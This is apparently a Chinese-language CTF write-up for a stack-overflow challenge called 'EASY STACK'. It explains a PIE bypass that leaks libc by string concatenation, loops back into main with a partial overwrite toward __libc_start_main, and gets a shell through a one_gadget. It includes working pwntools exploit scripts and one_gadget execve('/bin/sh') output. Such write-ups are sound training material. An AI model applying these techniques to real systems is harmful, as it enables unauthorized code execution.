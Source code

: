 # EASY STACK

题目来源:http://pwn.eonew.cn/challenge.php

除了金丝雀其他都开了，主要麻烦点在PIE。程序包含栈溢出漏洞，但是无法使用ROP，也无法使得程序循环。这道题是通过部分地址写__libc_start_main来构成循环，字节拼接来泄露libc地址。

![Nz2TXH](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/Nz2TXH.png)



**审计**

main函数中的缓冲区s发生过栈溢出，cpy操作在read_n函数中。最后时候会有一次输出puts，可以考虑用这个进行地址泄露。绕过PIE的原理参考萝卜师傅的[文章](https://www.anquanke.com/post/id/177520)

```
  read_n(&s, 0x100uLL);
  puts(&s);
```

可用用字符串拼接的方式来泄露main栈中的一些数据来泄露libc地址。

![image-20200504184851728](/Users/migraine/Library/Application Support/typora-user-images/image-20200504184851728.png)

此处是运行到ret处的栈空间，然后ESP指向处是__libc_start_main+231，一开始我认为这个位置我们需要用于控制程序流。所以往下寻找（实际上不必），找到ESP+0x90位置，发现这里的值与libc固定偏移4200243。所以可以将我们的字符串写到这个值的前方，最后会被puts输出。

![Ay6Yxf](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/Ay6Yxf.png)

![aXFZsP](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/aXFZsP.png)

我们可以通过栈溢出，覆盖\x00来连接字符串，泄露ret时刻栈顶的__libc_start_main+231。

![qFNTPQ](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/qFNTPQ.png)

DEMO

```python
#!/usr/bin/python
from pwn import *

context.terminal = ['tmux','splitw','-h' ]
debug=1
#elf=ELF("./easy_stack")
if debug:
    p=process("./easy_stack")
    context.log_level='Debug'
    gdb.attach(p)
else:
    p=remote("nc.eonew.cn",10507)
s  = lambda data    :p.send(data)
sl = lambda data    :p.sendline(data)

payload="A"*(0x85+3)
sl(payload)

p.recv(0x88)
libc=u64(p.recv(6).ljust(8,"\x00"))
print hex(libc)

p.interactive()
```

但是PIE开启，无法跳转回main函数，也没办法使用gadgets。所以先考虑了一下部分地址爆破，考虑直接对__libc_start_main+231进行parital write，写低位爆破。但是system距离libc_start_main实在太远了。似乎还是不太行了。

![vXwk1T](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/vXwk1T.png)

![Gmj05D](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/Gmj05D.png)

思路回到循环上，并且找到一个宝藏。学到一个新姿势，通过__libc_start_main函数来循环。（这个函数是libc中的函数，负责调用我们的main函数，并且在main结束时还会退出到这个函数）忽然理解了题目的提示，让我们好好看看libc，这是让我看源代码呀。

![6jPZgv](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/6jPZgv.png)

经过实验，发现只需跳转到__libc_start_main+0xb70就能实现main函数循环。

![xGRY8r](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/xGRY8r.png)

DEMO

```python
payload="A"*(0x85+3)+"\x70" #通过__libc_start_main+0xb70函数来循环
sl(payload)

p.recv(0x88)
libc=u64(p.recv(6).ljust(8,"\x00"))
print hex(libc)
```

其实地址泄露很简单，但是能够找到一个循环，真的很不容易。循环之后第二次写入，就可以getshell了。

EXP

```python
#!/usr/bin/python
from pwn import *

context.terminal = ['tmux','splitw','-h' ]
debug=1
#elf=ELF("./easy_stack")
if debug:
    p=process("./easy_stack")
    context.log_level='Debug'
    gdb.attach(p)
else:
    p=remote("nc nc.eonew.cn",10004)
s  = lambda data    :p.send(data)
sl = lambda data    :p.sendline(data)

payload="A"*(0x85+3)+"\x70"
sl(payload)

p.recv(0x88)
libc=u64(p.recv(6).ljust(8,"\x00"))-0x21b70
print hex(libc)
one_gadget=libc+0x4f2c5
payload="A"*(0x85+3)+p64(one_gadget)
s(payload)
p.interactive()
```

![lJnL7S](https://gitee.com/p0kerface/blog_image_management/raw/master/uPic/lJnL7S.png)



# 小结

- 新姿势，通过__libc_start_main函数来循环



```c
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
root@59b9934cad24:/ctf/work/EASYSTACK# one_gadget -l1 libc-2.27.so 
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0xe569f execve("/bin/sh", r14, r12)
constraints:
  [r14] == NULL || r14 == NULL
  [r12] == NULL || r12 == NULL

0xe5858 execve("/bin/sh", [rbp-0x88], [rbp-0x70])
constraints:
  [[rbp-0x88]] == NULL || [rbp-0x88] == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe585f execve("/bin/sh", r10, [rbp-0x70])
constraints:
  [r10] == NULL || r10 == NULL
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL

0xe5863 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

0x10a398 execve("/bin/sh", rsi, [rax])
constraints:
  [rsi] == NULL || rsi == NULL
  [[rax]] == NULL || [rax] == NULL

```

